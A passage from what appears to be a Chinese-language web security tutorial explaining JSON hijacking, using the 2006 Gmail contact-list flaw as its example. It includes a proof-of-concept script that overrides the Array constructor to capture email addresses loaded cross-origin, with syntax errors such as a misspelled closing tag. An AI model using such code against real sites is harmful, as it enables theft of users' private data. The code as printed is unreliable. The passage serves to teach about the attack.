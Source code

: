 JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验导致的，它主要是用来窃取服务器返回的敏感信息。

实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。

#### 覆写数据构造器

若服务端返回的 JSON 数据中包含一个序列化数组，那攻击者就可以重定义数组构造器，以实现 JSON 数据的访问。比如 2006 年的 Gmail 就曾出现过 JSON 劫持联系人列表的漏洞，漏洞 CGI 位于：

它会返回联系人列表的 JSON 数据。

```
[["ct","Your Name","foo@gmail.com"], ["ct","Another Name","bar@gmail.com"] ]
```

因此，可通过覆盖数组构造器来读取 JSON 数据。

```
<script>
var table = document.createElement('table');
table.id = 'content';
table.cellPadding = 3;
table.cellSpacing = 1;
table.border = 0;
function Array() {
var obj = this;
var ind = 0;
var getNext;
  getNext = function(x) {
    obj[ind++] setter = getNext;  
if(x) {
var str = x.toString();  
if ((str != 'ct')&&(typeof x != 'object')&&(str.match(/@/))) {
var row = table.insertRow(-1); 
var td = row.insertCell(-1);  
        td.innerHTML = str;  
      }
    }
  };
this[ind++] setter = getNext;
}
function readGMail() {
document.body.appendChild(table);
}
</scirpt>
<script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
```

从以上代码中我们可以总结整个攻击流程：

1.  通过`<script>`加载目标 JSON 对象到页面中；
    
2.  覆写 Array 对象，并设置数组元素的 setter 为 getNext 函数，有时也可以使用 Object.prototype.\_\_defineSetter\_\_来覆盖 setter；
    
3.  getNext 函数读取包含联系人信息的 JSON 信息。
    